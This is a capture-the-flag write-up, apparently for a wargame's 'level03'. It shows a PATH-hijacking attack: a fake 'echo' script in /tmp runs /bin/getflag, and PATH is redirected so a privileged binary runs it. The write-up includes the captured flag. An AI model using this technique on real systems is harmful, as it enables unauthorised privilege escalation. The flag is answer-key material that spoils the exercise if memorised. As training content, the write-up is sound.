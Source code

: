 # level03 solve

Firstly, at all, when we get logged and trying to see if we got the file we can see we have one file "level03"

```
$ ls
> level03
```

It look like an binary file so we decide to run it.

```
$ ./level03
> Exploit me
```

After some try with gdb we decide to see inside the file.

```
$ cat ./level03
```

And we see some multiple line interesting. But the most curois line was ` /usr/bin/env echo Exploit me `

```
▒[▒/usr/bin/env echo Exploit me0p▒▒▒L▒▒▒▒p▒▒▒▒▒▒▒▒▒▒▒▒▒▒zR|
```

After some reflexion, we decide to try se if the tmp folder got all right.
And it is the case, so we decide to redirect echo on getflag, because we suppose that the executable use ` execve ` for printing the message with the bin ` echo ` .

```
$ echo /bin/getflag > /tmp/echo
$ chmod 777 /tmp/echo
$ export PATH=/tmp
```

On line :

```
$ echo /bin/getflag > /tmp/echo ; chmod 777 /tmp/echo ; export PATH=/tmp
```

Trying againt and...

```
$ ./level03
> qi0maab88jeaj46qoumi7maus
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level02">previous level</a> - <a href="../../level04">next level</a>

